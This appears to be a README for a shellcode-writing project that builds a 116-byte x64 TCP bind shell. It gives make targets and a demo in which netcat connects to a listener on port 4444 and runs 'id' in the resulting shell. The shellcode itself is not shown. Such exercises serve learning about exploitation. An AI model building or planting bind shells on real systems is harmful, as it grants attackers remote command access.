 # TCP bind x64 shellcode

Listing:
- `bind.c` - TCP bind C code
- `bind.s` - asm rewrite of C code
- `bind_sh.s` - adapted asm for shellcode

## Compiling

Use `make (target) PROJECT=bind`.

## Running

First terminal:
```
$ make skeleton PROJECT=bind
...
$ out/skeleton
Shellcode Length:  116

```

Second terminal:
```
$ sudo lsof -i -P | grep skeleton
skeleton  6713          ubuntu    3u  IPv4  86504      0t0  TCP *:4444 (LISTEN)
$ nc localhost 4444
id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```
